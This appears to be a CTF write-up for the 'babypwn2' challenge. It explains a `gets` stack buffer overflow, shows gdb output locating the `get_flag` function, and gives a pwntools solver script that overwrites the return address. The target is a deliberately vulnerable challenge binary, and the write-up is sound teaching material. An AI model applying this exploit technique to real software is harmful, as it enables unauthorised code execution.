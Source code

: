 The `gets` function is dangerous because it does not check the size of the input, which can lead to a buffer overflow. In this case, the buffer `buf` is of size `0x20` (32 bytes), but `gets` will write past the end of the buffer if given an input larger than 32 bytes.

```bash {title="find get_flag address" hl_lines=["19"]}
$ gdb ./babypwn2

gef➤  info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  printf@plt
0x0000000000401040  execve@plt
0x0000000000401050  gets@plt
0x0000000000401060  setvbuf@plt
0x0000000000401070  _start
0x00000000004010a0  _dl_relocate_static_pie
0x00000000004010b0  deregister_tm_clones
0x00000000004010e0  register_tm_clones
0x0000000000401120  __do_global_dtors_aux
0x0000000000401150  frame_dummy
0x0000000000401152  ignore
0x0000000000401195  get_flag
0x00000000004011d0  main
0x0000000000401220  __libc_csu_init
0x0000000000401280  __libc_csu_fini
0x0000000000401284  _fini
gef➤
```

The goal here is to overwrite the return address of the `main` function with the address of the `get_flag` function. This can be done by sending an input of 32 bytes (to fill up the buffer) plus the size of the saved base pointer (usually 8 bytes on a 64-bit system), followed by the address of the `get_flag` function.

```python {title="solver.py" lineNos=true lineNoStart=1}
from pwn import *

def exploit(io):
    io.recvuntil(b"What's your name?")

    get_flag_address = 0x401195

    payload = b'A' * 32
    payload += b'B' * 8
    payload += p64(get_flag_address)
    io.sendline(payload)

    # output = io.recvall()
    # print(output)
    io.interactive()

if __name__ == "__main__":
    context.update(log_level='debug')
    try:
        io = remote('babypwn2.wolvctf.io', 1337)
        exploit(io)
    except:
        io = process('./babypwn2')
        exploit(io)
```
